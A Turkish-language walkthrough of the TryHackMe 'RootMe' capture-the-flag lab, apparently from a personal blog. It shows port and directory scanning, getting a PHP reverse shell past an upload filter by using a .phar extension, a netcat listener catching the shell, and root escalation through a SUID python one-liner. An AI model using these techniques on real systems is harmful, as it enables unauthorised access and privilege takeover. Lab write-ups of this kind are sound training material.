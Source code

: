 ```yaml
---
title: 'TryHackMe | RootMe WriteUp'
author: 'appdone'
categories: [TryHackMe]
render_with_liquid: false
media_subpath: /images/tryhackme_rootme/
image:
  path: logo.webp
---
```


Merhaba, bu yazıda TryHackMe platformunda yer alan "RootMe" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sSVC --min-rate 1000 10.10.53.233
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 11:24 EDT
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğreniyoruz. Servislerin sürümlerinden yola çıkarak hiçbir şey yapamayacağımızdan doğrudan web uygulamasına yöneleceğiz.

Web sitesinin ana sayfasında önemli bir bilgi bulunmuyor. Daha fazla dosya ve dizin bulmak için Dirsearch aracını kullanacağım.

```console
$ dirsearch -u http://10.10.53.233
...
[11:26:55] 301 -  310B  - /css  ->  http://10.10.53.233/css/
[11:27:08] 200 -  464B  - /js/
[11:27:18] 200 -  388B  - /panel/
[11:27:37] 200 -  405B  - /uploads/
...
```

Tarama sonucunda panel ve uploads olmak üzere iki dizin keşfediyoruz. Panel dizininde bir login sayfası bulunuyor. Uploads dizininde ise adından da anlaşılacağı üzere yüklenen dosyalar bulunuyor.

![file upload](1.webp){: width="1200" height="600" }

Panel dizinindeki form'a php ile yazılmış olan reverse shell dosyasını yüklemeye çalıştığımda php dosyalarının yasaklı olduğunu öğreniyorum. Dosya adını sürekli değiştirerek sayfayı yüklemeye çalıştığımda .phar dosyalarının sorunsuzca yüklendiğini anladım.

![file upload](2.webp){: width="1200" height="600" }

Dosyayı yükledikten sonra uploads dizininde olup olmadığını kontrol ettim. Daha sonra 1234 numaralı portu netcat ile dinlemeye aldım ve dosyayı çalıştırdım.

```console
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.53.233] 46542
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:36:02 up 13 min,  0 users,  load average: 0.01, 0.07, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Bağlantıyı aldıktan sonra user.txt dosyasını bulmak için dizinleri gezmeye başladım ve /var/www dosyasında olduğunu gördüm.

```console
www-data@rootme:/var/www$ cat user.txt
THM{***}
www-data@rootme:/var/www$
```

Son olarak yetki yükselterek son bayrağı almamız gerekiyor. SUID bitine sahip dosyaları listeledikten sonra python dosyasını sahibi olan root kullanıcısı adına çalıştırabileceğimi gördüm.

```console
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
...
/usr/bin/python
...
```

Bundan sonra yapmamız gereken tek şey "-c" parametresi ile os modülünü kullanarak bash'e geçmektir. Root haklarında çalışacağı için yetki yükseltmiş olacağız.

```console
www-data@rootme:/var/www$ python -c "import os;os.system('bash')"
www-data@rootme:/var/www$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
THM{***}
```

Yetki yükselttikten sonra /root dizininden son bayrağı aldım. Bu arada resimde gördüğünüz ilk komutu girdikten sonra yetki yükseltemedim. Tekrar denemek için yukarı ok işaretini kullanarak aynı komutu seçtiğimde kendisi otomatik olarak komutu düzenledi. Böyle bir şey ile ilk defa karşılaşıyorum. Neden olduğu konusunda bir fikrim yok.
